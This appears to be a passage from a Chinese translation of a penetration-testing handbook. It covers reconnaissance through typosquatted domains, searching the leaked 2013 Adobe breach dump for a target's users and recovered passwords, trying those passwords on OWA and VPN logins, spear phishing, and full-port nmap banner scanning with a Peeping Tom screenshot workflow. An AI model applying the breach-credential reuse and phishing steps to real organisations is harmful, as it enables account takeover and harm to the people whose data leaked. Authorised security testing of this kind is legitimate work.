

**图 5 - 域名抢注**

正如我们从上述域名拼写错误中看到的，并非所有域名似乎都归母公司所有。这对你的客户来说是很好的信息，因为这可能意味着有人正恶意抢注他们的域名。你也可以从攻击者的角度出发，可能购买这些域名用于社会工程学攻击。

这通常足以开始测试的被动发现阶段，但如果你需要深入挖掘，我建议也看看 `Recon-ng`。`Recon-ng` 可在 [`bitbucket.org/LaNMaSteR53/recon-ng`](https://bitbucket.org/LaNMaSteR53/recon-ng) 找到，它在不同搜索和自动化工具上有更大深度，以获取额外的被动信息。如果你感兴趣，我推荐查看 2013 年 Derbycon 的这个演示：[`bit.ly/1kZbNcj`](http://bit.ly/1kZbNcj)。

## 利用泄露名单查找邮箱地址和凭据

作为渗透测试员的好处在于，你必须发挥创造力并使用各种资源，就像恶意攻击者一样。在过去几个月中，我发现一种非常富有成效的策略是利用已知的凭据泄露进行密码重用攻击。让我详细解释一下。

几个月前，Adobe 系统发生大规模泄露。泄露信息包括邮箱地址、加密密码及其密码提示。^(2) 这个近 10 GB 的大量数据最初在小圈子私下发布，现已公开可用（尝试搜索 Adobe 和 `users.tar.gz`）。从攻击者角度来看，这是一个信息金矿。我通常会解析此文件，识别出我正在测试的目标域名。

当然，重要的是要确认这种测试类型是否在你的约定范围内，以及获取任何密码/泄露名单副本是否违法。如果是完全的黑盒测试，这绝对应该是你攻击方法的一部分。

例如，在下图中，我将使用 Linux `grep` 命令在 Adobe 密码列表中搜索示例域名 `yahoo.com`（记住你应该搜索你正在测试的域名）。我们可以看到有许多用户（我已隐去）的邮箱地址包含 yahoo，并拥有加密密码和密码提示。



**图 6 - 2013 年 Adobe 泄露事件中的账号/密码列表**


根据这些提示，你可以做一些调查，找出某个特定用户的男朋友是谁，或者他们猫的名字，但我通常采用快速且粗暴的尝试方法。

我找到了两组研究人员，他们根据模式和提示成功还原了一部分加密密码。请记住，从 Adobe 列表来看，由于密码不是哈希值而是加密密码，如果没有密钥，尝试还原密码会困难得多。我能找到的两个还原列表是：

*   <http://stricture-group.com/files/adobe-top100.txt>
*   <http://web.mit.edu/zyan/Public/adobe_sanitized_passwords_with_bad_hints.txt>

我将这两个列表合并、清理，并托管在此处：

*   <https://www.securepla.net/download/foundpw.csv>

利用这个列表，我编写了一个简短的 `python` 脚本，用于解析邮箱/加密密码列表，并将其与 `foundpw.csv` 文件进行比对。该脚本可在此处找到：

*   <https://securepla.net/download/password_check.txt>

提供一个格式为“邮箱, 加密密码”的文本文件给 `password_check` Python 脚本，任何密码匹配都会导致脚本返回邮箱地址和还原后的密码列表。当然，这两个研究小组还原的密码数量不多，但应该包含了容易破解的“低垂果实”。让我们在下一个示例中看看实际效果。



图 7 - 用于查找邮箱/密码的自定义 Python 脚本

我通常会获取此输出的结果，尝试针对公司的 Outlook Web Access (OWA) 登录或 VPN 登录进行测试。你可能需要对密码中的某些变量进行调整（例如如果密码包含 2012，你可能想尝试 2013），同时也要确保不要锁定账户。

然后，我将从这些发现中收集到的邮箱地址用于鱼叉式网络钓鱼攻击。请记住，如果他们在 Adobe 列表中，这些用户极有可能属于 IT 组。攻下其中一个账户可能会带来极大的收益。

这就是为什么渗透测试如此有趣。你不能只是单纯运行工具，而必须发挥自己的创造力，为客户提供他们可能面临的最真实、最有效的攻击模拟。现在你应该已经拥有一份很棒的 IP 范围、FQDN、邮箱地址、用户名和可能的密码列表了。掌握这些信息，让我们转入主动发现阶段。


## 主动发现

主动发现是尝试识别系统、服务和潜在漏洞的过程。我们将针对范围内指定的网络段进行扫描。无论你是从网络的内部段还是外部段进行扫描，拥有合适的工具来执行主动发现都至关重要。

我想强调的是，本书不会详细讨论如何运行扫描器，因为你应该已经熟悉这方面的操作。如果不熟悉，我建议你下载 `Nexpose` 的社区版或获取 `Nessus` 的试用版。尝试在家庭网络甚至实验室网络中运行它们，了解发现的类型、认证扫描的使用方法，以及在网络上产生的流量类型。这些扫描器非常“吵”，会非常频繁地触发网络上的 IDS/IPS 警报。现在我们准备好了，让我们深入了解一些更重要的细节。


在本节中，我将描述我喜欢用来扫描网络的流程。我将使用多种工具、流程和技术，以期提供高效且有效的扫描。我的扫描流程大致如下：

*   使用 `Nexpose`/`Nessus` 进行扫描
*   使用 `Nmap` 进行扫描
*   使用自定义 `Nmap` 进行扫描
*   使用 `PeepingTom` 进行屏幕捕获

### 网络漏洞扫描

尽管这些工具可能非常“吵”，但这是开始测试最有效、最高效的方式。在确保配置正确后，我喜欢启动其中一个（如果不是两个都启动）扫描器并使用安全检查。如果时间是主要考量因素，我实际上会先运行一个配置文件，仅查找已知可利用的漏洞，然后再用默认配置文件运行第二次扫描。这样，第一次扫描将在极短的时间内完成，且仅包含关键发现。

让我简要谈谈漏洞扫描器。在准备阶段，我讨论了购买 `Nexpose` 或 `Nessus` 扫描器的想法。关于哪个扫描器更好，一直存在巨大的争论，我对此有个保留意见：我用过大多数商业扫描器，从未发现哪一个是完美的或正确的解决方案。在比较这些工具时，我发现总会有某些工具能发现而另一些工具会遗漏的结果。最好的主意是运行多个工具，但这并不总是财务上最可接受的方案。

我的建议是，如果你打算购买单个许可证，我推荐购买 Tenable 的 `Nessus` 漏洞扫描器。就可扫描的 IP 数量和成本（1500 美元）而言，它是最合理的。我发现 `Nexpose` 的单个顾问许可证价格是它的两倍，且可扫描的 IP 数量有限，但我建议你自行核实，因为价格随时可能变动。

这里有一个快速示例，说明为什么你可能需要考虑多个工具。以下扫描是 `Nexpose` 专业版针对我的网站进行的。我运行的配置文件只是标准漏洞扫描，不包含深度 Web 应用检查。结果返回了 4 个严重发现，请看下图了解详情。



图 8 - Rapid7 `Nexpose` 扫描结果

在第二个示例中，我使用 Tenable `Nessus` 专业版扫描器运行了类似的配置文件，结果却大不相同。请记住，这只是针对我的 Web 服务器的扫描，样本量非常小。在更大规模的扫描中，我发现两者的发现结果会比这些结果接近得多。如果看下图，`Nessus` 返回了 3 个中危发现和 5 个低危发现。



图 9 - Tenable `Nessus` 扫描结果

仅从这两个示例来看，我们就能发现它们的结果不同。乍一看，我最可能开始深入分析的唯一发现是仅被 `Nexpose` 识别出而 `Nessus` 未识别出的 Wordpress 路径泄露漏洞。

尽管扫描器非常有用，且在运行网络渗透测试时几乎是必需品，但你需要了解它们的优势和局限性。

### Nmap - 服务版本探测

在进入服务版本探测部分之前，我通常会在常用端口（如果时间充裕，则扫描所有 65,535 个端口）上运行自定义的 `Nmap` 操作系统和服务检测扫描。除了常规的 `Nmap`，我还会运行服务版本探测脚本，这将在下文描述。

我对完整漏洞扫描器的一个不满是，它们极其耗时。为了补充漏洞扫描器，我会运行一个快速的 `Nmap` 脚本来扫描端口并获取基本信息，这将帮助我制定攻击计划。

我希望你已经使用过 `Nmap`，并且完全了解它的功能。对我来说，`Nmap` 快速、高效、模块化，且能完成任务。我推荐阅读 Fydor 的 `Nmap` 书籍 (<http://www.amazon.com/Nmap-Network-Scanning-Official-Discovery/dp/0979958717>)，但重点是快速发现所有不同的主机和运行中的服务。对我最有用的是对所有 65535 个端口运行 `Nmap`，查看这些端口是否开放并获取服务版本信息。


我将使用相同的流程来对比和差异分析旧的网络扫描结果与新的扫描结果，以识别环境中的变化。我的一些客户要求我每月运行一次扫描，这是一种非常快速简便的识别变化的方法（需要少量脚本编写）。

## 设置阶段

在设置阶段，我们安装了来自 HD Moore 的 `banner-plus.nse`。这是他在绘制整个互联网地图时使用的同一个脚本。它提供了一种非常快速的方法来识别开放端口的横幅页面。运行扫描的命令如下所示：

```
nmap --script /usr/share/nmap/scripts/banner-plus.nse --min-rate=400 --min-parallelism=512 -p1-65535 -n -Pn -PS -oA /opt/peepingtom/report <IP CIDR>
```

### 参数列表

*   `--script` = 我们在设置区域下载的 `banner-plus` 脚本的位置
*   `--min-rate` = 保证扫描在特定时间内完成
*   `--min-parallelism` = 加快探测总数
*   `-p1-65535` = 扫描所有 65k 端口
*   `-n` = 禁用 DNS 解析（有助于加快扫描速度）
*   `-Pn` = 禁用 Ping（许多服务器在外部网络上禁用了 Ping）
*   `-PS` = TCP SYN Ping
*   `-oA` = 导出所有类型的报告

你可以调整 `--min-rate` 和 `--min-parallelism` 参数，找到最适合你网络的性能与可靠性平衡点（更多信息请参阅 [`nmap.org/book/man-performance.html`](http://nmap.org/book/man-performance.html)）。

我利用这些数据创建了一个易于查看的视图，用于查看服务、易受攻击的版本和独特问题。Nmap 结果会将输出以所有不同格式打印在 `/opt/peepingtom/` 文件夹中。我们稍后将在“屏幕捕获”部分查看这些文件，但我先想演示一下我是如何使用这些数据的。

## 互联网扫描应用

在下一节中，我想给出一个示例，说明如何获取横幅数据并快速搜索所有扫描结果。我创建了一个 MongoDB 后端数据库（为了速度）并使用 PHP 作为前端。为了将数据推送到数据库，创建了一个快速的 Python 脚本来解析来自 Nmap 的 XML 文件。然后我创建了一个 PHP 页面来查询这些数据。由于我扫描了大量 `/16` 网络，我需要一种快速的方法来识别可能引起我兴趣的独特横幅页面。理想情况下，如果我有时间，我会发布一个公开可访问的版本，你可以上传自己的 XML 文件并查看结果。

因此我构建了现在所谓的 `internet-scan` 应用程序。该应用程序可以快速查询特定的横幅、端口和 IP。更有用的是查询易受攻击系统的横幅页面。你可能会争辩说横幅页面可能会撒谎，但在我的大多数渗透测试中，我发现这种情况很少见。下图是 `internet-scan` 的初始页面。



**图 10 - 用于解析 Nmap 横幅脚本的自定义门户**

然后我会获取每个横幅结果，并针对我想寻找的攻击进行快速正则表达式检查。我会以几种不同的方式对横幅结果进行排序。例如，以下是我可能想从 `/16` 扫描中深入挖掘的有趣横幅：



**图 11 - 有趣横幅的脚本解析**

我能够立即识别出可能想花费额外时间研究的系统横幅，或者可能已经被攻陷的主机。嗯……包含“scada”一词的横幅页面可能非常有趣，因为它们可能指向电网信息……那“terminal”怎么样？让我告诉你，那些确实让我在许多网络设备上进入了非特权 Shell。

我还为某些类型的操作系统、应用程序版本或其他信息预先创建了查询，这些信息可能让我快速评估大型环境。例如，我为 IIS 类型的横幅页面制作了一个快速正则表达式，结果如下。



**图 12 - 提取 IIS 版本横幅**

从所有 65k 端口抓取横幅的速度，以及利用 `internet-scan` 快速解析这些横幅的速度，为我节省了大量时间。

## 屏幕捕获 - Peeping Tom

回到处理我们的 Nmap 扫描结果。作为一名渗透测试人员，扫描大范围网络的问题在于组织这些数据并识别出你想首先攻击的“低垂果实”。你可能会识别出某个范围内有 100 多个网站，手动访问它们既耗时又可能无法发现任何漏洞。很多时候，大多数 Web 应用程序页面都毫无用处，可以轻松地从人工审查中移除。`Peeping Tom` 是一个工具，它可以处理 IP 和端口的输入，对所有 HTTP(s) 服务进行截图，并以易于阅读的格式呈现。

这意味着你可以打开一个 HTML 页面，快速查看哪些网站更有可能包含漏洞，或者哪些页面是你已知想花更多时间研究的。请记住，在测试期间，时间往往是关键，因为你的测试窗口可能非常小。

在启动 `Peeping Tom` 之前，我们需要准备和清理数据以供抓取。`Gnmap.pl` 是一个小型的 Perl 脚本，它将获取之前 Nmap 的结果并将其清理为 IP 列表。我们可以通过以下命令执行此操作：

*   `cd /opt/peepingtom/`
*   `cat report.gnmap | ./gnmap.pl | grep http | cut -f 1,2 -d “,” | tr “,” “:” > http_ips.txt`

输出将是一个名为 `http_ips.txt` 的文件，包含运行 HTTP 服务的 IP 完整列表。我们现在可以将其输入 `Peeping Tom` 开始屏幕抓取。运行 `Peeping Tom`：

*   `python ./peepingtom.py -p -i http_ips.txt`

下面的示例演示了针对我们之前 Nmap 扫描输出运行该工具的情况。请注意，某些 HTTP 服务无法被捕获，必须手动访问。

```
python ./peepingtom.py -h

Usage: peepingtom.py [options]

peepingtom.py - Tim Tomes (@LaNMaSteR53) (www.lanmaster53.com)

Options:

--version  show program's version number and exit
-h, --help show this help message and exit
-v         Enable verbose mode.
-i INFILE  File input mode. Name of input file. [IP:PORT]
-u URL     Single URL input mode. URL as a string.
-q         PyQt4 capture mode. PyQt4 python modules required.
-p         Phantomjs capture mode. Phantomjs required.

python ./peepingtom.py -p -i http_ips.txt

[*] Storing data in '131229_230336/'
[*] http://192.168.58.20 200. Good.
[*] https://192.168.58.20 200. Good.
[*] http://192.168.58.21 403. Good.
[*] https://192.168.58.21 <Connection refused>. Visit manually from report.
[*] http://192.168.58.25 <No route to host>. Visit manually from report.
[*] https://192.168.58.25 <No route to host>. Visit manually from report
[*] http://192.168.58.35 <Connection refused>. Visit manually from report.
[*] http://192.168.58.48 200. Good.
[*] https://192.168.58.48 200. Good.
```

`Peeping Tom` 运行完成后，将在 `peepingtom` 文件夹中创建一个基于日期时间戳命名的新文件夹。在此文件夹内将包含所有图像和一个 `report.html` 文件。使用浏览器打开 `report.html` 文件，你将能够快速识别哪些页面更有用，哪些页面无法渲染。让我们快速看一下我们扫描的结果。



**图 13 - Peeping Tom 输出**

在报告中，我们注意到有许多不同的屏幕截图。它将显示网页的快照，以及关于服务器、日期和 HTTP 响应的信息。想象一下，如果你的测试中有 100 多个 Web 服务器。这将使你的生活变得轻松得多，能够在几分钟内浏览所有网站。

那么你到底在找什么？嗯，这就是经验真正发挥作用的地方，因为没有标准答案，但以下是通常引起我注意的内容：

*   Apache Tomcat
*   JBoss
*   ColdFusion
*   WordPress
*   Joomla
*   Beta/DEV 站点


## 需要身份验证的页面

*   默认网络设备页面
*   内容管理系统
*   Wiki 站点
*   版权声明年份早于 2012 年的页面
*   VOIP 页面

我之所以针对这些站点，是因为它们通常会导致系统被攻陷或数据泄露。针对 Apache、JBoss 和 Cold Fusion，也存在大量已知漏洞，且利用代码随处可得。

### 一些示例

*   **Cold Fusion 示例：** [`www.exploit-db.com/exploits/25305/`](http://www.exploit-db.com/exploits/25305/)
